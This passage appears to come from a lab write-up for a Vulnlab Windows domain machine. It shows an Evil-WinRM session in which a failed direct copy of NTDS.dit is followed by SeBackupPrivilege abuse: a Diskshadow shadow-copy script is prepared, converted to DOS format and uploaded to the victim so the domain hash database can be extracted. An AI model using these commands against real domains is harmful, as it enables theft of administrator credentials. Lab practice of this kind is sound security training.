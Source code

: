 <img src="attachments/53dc00efd7e011b261b728c33dd3f190.png" />

>In a Windows domain environment, domain administrator (Domain Admin) password hashes are stored in the **NTDS.dit** file

We didn't have permission to copy the `NTDS.dit` file as we did with the previous files.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> copy C:\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit
Access to the path 'C:\Windows\NTDS\NTDS.dit' is denied.
At line:1 char:1
+ copy C:\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Windows\NTDS\NTDS.dit:FileInfo) [Copy-Item], UnauthorizedAccessException
    + FullyQualifiedErrorId : CopyFileInfoItemUnauthorizedAccessError,Microsoft.PowerShell.Commands.CopyItemCommand
```

---

#### Copying the `ntds.dit` File Using SeBackupPrivilege Abuse

*Create the Diskshadow commands with the following content:*
```
set context persistent nowriters  
add volume c: alias persecure  
create  
expose %persecure% z:
```

*Convert the file to DOS format:*
```
destiny@falcon:~/vulnlab.com/Baby-W$ unix2dos diskshadow.dsh
unix2dos: converting file diskshadow.dsh to DOS format...
```

*Upload the `.dsh` file to the victim machine:*
```
*Evil-WinRM* PS C:\Windows\temp> upload diskshadow.dsh

Info: Uploading /home/destiny/vulnlab.com/Baby-W/diskshadow.dsh to C:\Windows\temp\diskshadow.dsh

Data: 128 bytes of 128 bytes copied

Info: Upload successful!
```
